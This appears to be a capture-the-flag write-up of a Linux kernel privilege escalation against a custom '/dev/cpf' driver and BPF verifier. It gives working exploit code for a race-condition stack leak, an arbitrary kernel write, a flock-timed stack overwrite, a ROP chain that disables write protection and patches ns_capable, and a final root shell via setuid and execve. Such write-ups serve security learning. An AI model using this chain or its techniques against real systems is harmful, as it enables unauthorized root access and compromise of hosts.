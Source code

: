1. info leak

uninitalized stack variable leak is possible by triggering race condition in load_attr function.

kernel module base and stack address can be leaked if MAP_LOOKUP_ELEM ioctl is called before the stack leak.

race window is very small. but chances to win the race can be increased by placing buffer at boundary of two pages.

ex) 0x100fff, 0x101000

```c
int load_attr(struct cpf_data __user *p) {
    struct cpf_data tmp;

    if (hardened_access_ok(VERIFY_READ, p, sizeof(struct cpf_data))) {
        // p is invalid because protection is PROT_NONE
        // __copy_from_user does not clear buffer on error
        __copy_from_user(&tmp, p, sizeof(struct cpf_data));

        write_lock(&g_buf_rwlock);
        memcpy(&g_buf, &tmp, sizeof(struct cpf_data));
        write_unlock(&g_buf_rwlock);
        return 0;
    }

	return -EFAULT;
}
```

```c
static noinline hardened_access_ok(int type, void *addr, size_t size) {
    unsigned char x = 0;
    int tmp = 0;

    if (!access_ok(type, addr, size)) // <------- any user address is ok
        return 0;

    // fails if addr is not really readable
    // race thread : mprotect(0x100000, 0x1000, PROT_READ);
    if (get_user(x, (unsigned char *)addr) || get_user(x, (unsigned char *)addr + size)) // <------- addr + size is on different page (check always passed)
        return 0;
    // race thread : mprotect(0x100000, 0x1000, PROT_NONE);

    if (type == VERIFY_WRITE) {
        get_user(x, (unsigned char *)addr);
        tmp |= put_user(x, (unsigned char *)addr);

        get_user(x, (unsigned char *)addr + size);
        tmp |= put_user(x, (unsigned char *)addr + size);

        if (tmp)
            return 0;
    }

    return 1;
}
```

<hr>

2. arbitrary write

arbitrary write bug in verifier.c line 4595

```c
if (log_level == 9) {
    memcpy(log_ubuf, env->prog->insns, 8);
    strcpy(log_ubuf + 8, "... : invalid instruction");
}
```
8 bytes of fully controlled data + dummy is copied to arbitrary address.

```c
void kwrite(unsigned long addr, unsigned long value) {
    int fd = open("/dev/cpf", 2);
    struct cpf_data buf;
    unsigned long prog[] = {
        value,
        0,
        0,
        0
    };
	size_t insns_cnt = sizeof(prog) / sizeof(struct bpf_insn);
    union bpf_attr battr = {
            .prog_type = BPF_PROG_TYPE_SOCKET_FILTER,
            .insns = prog,
            .insn_cnt = insns_cnt,
            .license = "N/A",
            .log_level = 9,
            .log_size = 128,
            .log_buf = addr,
            .kern_version = 0,
    };
    memset(&buf, 0, sizeof(buf));
    memcpy(&buf,&battr,48);
    ioctl(fd,0,&buf);
    ioctl(fd,PROG_LOAD,&buf);
    close(fd);
}
```

<hr>

3. arbitrary write to ROP

we need to trigger arbitrary write n-times before kernel thread returns.

to achieve this, we block thread (kernel stack address leaked) at kernel using flock. overwrite stack from other thread. after that, release the lock.

```c
static int *overwrite_stack(void *arg) {
    printf("overwrite_stack pid: %d\n", getpid());
    printf("overwrite_stack flock(LOCK_EX): %d\n", flock(lock_fd1, LOCK_EX));

    const unsigned long base_index = 20;

    unsigned long payload[] = {
        // ...
    };
        
    sleep(2);

    for(int i = base_index; i < base_index + sizeof(payload) / sizeof(unsigned long); i++) {
        kwrite(kstack_addr + i * 8, payload[i - base_index]);
    }

    printf("overwrite_stack flock(LOCK_UN): %d\n", flock(lock_fd1, LOCK_UN));
}

void kwrite_rop(unsigned long addr, unsigned long value) {
    if (!fork()) {
        signal(SIGCHLD, SIG_IGN);
        sleep(3);
    }
    else {
        kwrite_rop_addr = addr;
        kwrite_rop_value = value;

        lock_fd1 = open("/tmp/lock", O_WRONLY|O_CREAT|O_TRUNC, 0777);
        lock_fd2 = open("/tmp/lock", 0);

        printf("lock_fd1: %d\n", lock_fd1);
        printf("lock_fd2: %d\n", lock_fd2);
        printf("victim pid: %d\n", getpid());

        clone(overwrite_stack, overwrite_stack_thread_stack + STACK_SIZE, CLONE_VM, NULL);
        sleep(1);
        printf("flock: %d\n", flock(lock_fd2, LOCK_EX));
        exit(0);
    }
}
```

<hr>

4. overwrite kernel code

```c
unsigned long payload[] = {
    kernel_base + 0x613DA,
    kernel_base + 0x613DA,
    kernel_base + 0x613DA,
    kernel_base + 0x613DA,
    kernel_base + 0x613DA,
    kernel_base + 0x613DA,
    kernel_base + 0x613DA,
    kernel_base + 0x613DA,

    // pop rdi
    kernel_base + 0xFC18,
    0x0000000080050033 & ~CR0_WP,
    // native_write_cr0
    kernel_base + 0x62480,
    
    // pop rdi
    kernel_base + 0xFC18,
    (kwrite_rop_addr & 0xfffffffffffff000) - 0x1000,
    // pop rsi
    kernel_base + 0x310C,
    3,
    // set_memory_rw
    kernel_base + 0x6DF00,

    // pop rdi
    kernel_base + 0xFC18,
    kwrite_rop_addr,
    // pop rsi
    kernel_base + 0x310C,
    kwrite_rop_value,
    // mov [rdi], rsi
    kernel_base + 0x625A0,

    // crash to user
    kernel_base + 0xA00000,
    0
};
```

disable CR0_WP

set_memory_rw((ns_capable & 0xfffffffffffff000) - 0x1000, 3)

*ns_capable = 0xc3c0fec03148 (return 1)

by overwriting ns_capable, we virtually have all linux capabilities.

```c
SYSCALL_DEFINE1(setuid, uid_t, uid)
{
	struct user_namespace *ns = current_user_ns();
	const struct cred *old;
	struct cred *new;
	int retval;
	kuid_t kuid;

	kuid = make_kuid(ns, uid);
	if (!uid_valid(kuid))
		return -EINVAL;

	new = prepare_creds();
	if (!new)
		return -ENOMEM;
	old = current_cred();

	retval = -EPERM;
	if (ns_capable(old->user_ns, CAP_SETUID)) { 
      // if ns_capable returns 1 regardless of current capabilitiy?
        // any user can setuid to root!
		new->suid = new->uid = kuid;
		if (!uid_eq(kuid, old->uid)) {
			retval = set_user(new);
			if (retval < 0)
				goto error;
		}
	} else if (!uid_eq(kuid, old->uid) && !uid_eq(kuid, new->suid)) {
		goto error;
	}

	new->fsuid = new->euid = kuid;

	retval = security_task_fix_setuid(new, old, LSM_SETID_ID);
	if (retval < 0)
		goto error;

	return commit_creds(new);

error:
	abort_creds(new);
	return retval;
}

```

<hr>

5. get root shell

```c
// wait for ns_capable overwrite
while (setuid(0))
    sleep(1);

// done
setreuid(0, 0);
setregid(0, 0);
char *args[] = {"/bin/sh", NULL};
execve(args[0], args, NULL);
```
